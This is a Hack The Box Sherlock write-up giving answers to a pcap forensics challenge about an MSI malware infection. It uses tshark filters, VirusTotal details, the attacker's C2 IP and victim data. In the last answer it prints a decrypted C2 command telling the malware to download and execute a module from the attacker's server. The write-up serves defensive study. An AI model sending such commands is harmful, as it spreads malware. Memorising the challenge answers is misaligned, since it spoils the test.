---
tags:
  - htb
  - sherlock
  - easy
  - post
urls:
---
---
# HTB Sherlock - Interceptor Writeup

> **Scenario:** A recent anomaly has been detected in our network traffic, suggesting a potential breach. Our team suspects that an unauthorized entity has infiltrated our systems and accessed confidential company data. Your mission is to unravel this mystery, understand the breach, and determine the extent of the compromised data.

# QUESTIONS

1. What IP address did the original suspicious traffic come from?

**Answer:** `10.4.17.101`

The provided `.pcap` conversations show a lot of communication over `HTTP/HTTPS`:



Since nothing out of the ordinary is seen over the communication, filtering the provided `.pcap` using Tshark to retrieve the different domains contacted reveals some of them are malicious:

```bash
tshark -r interceptor.pcap -Y "dns.flags.response == 0" -T fields -e dns.qry.name -e frame.number
```





Following the frame number `10914` shows the source IP where the malicious traffic comes from:



2. The attacker downloaded a suspicious file. What is the HTTP method used to retrieve the properties of this file?

**Answer:** `PROPFIND`

Further filtering the `.pcap` to show all diferent `HTTP` request method, returns a suspicious method only used in WebDAV:

```bash
tshark -r interceptor.pcap -Y "http" -T fields -e http.request.method | sort -u
```



Having a suspicious request method allows for more granular filtering:

```bash
tshark -r interceptor.pcap -Y "http.request.method == PROPFIND" -T fields -e frame.number -e ip.src -e ip.dst -e http.host -e http.request.uri
```



3. It appears that this file is malware. What is its filename?

**Answer:** `avp.msi`

Of the two files present in the `.pcap`, the `Desktop.ini` is a simple `.txt` file while one of the `avp.msi` one is an msi installer:



4. What is the SSDEEP hash of the malware as reported by VirusTotal?

**Answer:** `24576:BqKxnNTYUx0ECIgYmfLVYeBZr7A9zdfoAX+8UhxcS:Bq6TYCZKumZr7ARdAAO8oxz`

According to VirusTotal, in the `Details` tab, the SSDEEP is shown:



5. According to the NeikiAnalytics community comment on VirusTotal, to which family does the malware belong?

**Answer:** `ssload`




6. What is the creation time of the malware?

**Answer:** `2009-12-11 11:47:44`



7. What is the domain name that the malware is trying to connect with?

**Answer:** `api.ipify.org`



8. What is the IP address that the attacker has consistently used for communication?

**Answer:** `85.239.53.219`



9. Which file, included in the original package, is extracted and utilized by the malware during execution?

**Answer:** `forcedelctl.dll`



10. What program is used to execute the malware?

**Answer:** `msiexec.exe`

The `Behaviour` section of VirusTotal shows a `Sigma` matching rule for the program used:



11. What is the hostname of the compromised machine?

**Answer:** `DESKTOP-FWQ3U4C`

Filtering for the malicious IP and `HTTP` reveals the communication between the IPs:

```
ip.addr==10.4.17.101 && ip.addr==85.239.53.219 && http
```



Following the `HTTP` stream of the first frame reveals numerous information:



12. What is the key that was used in the attack?

**Answer:** `WkZPxBoH6CA3Ok4iI`



13. What is the os_version of the compromised machine?

**Answer:** `Windows 6.3.9600`



14. What is the owner name of the compromised machine?

**Answer:** `Nevada`



15. After decrypting the communication from the malware, what command is revealed to be sent to the C2 server?

**Answer:** `{"command": "exe", "args": ["http://85.239.53.219/download?id=Nevada&module=2&filename=None"]}`

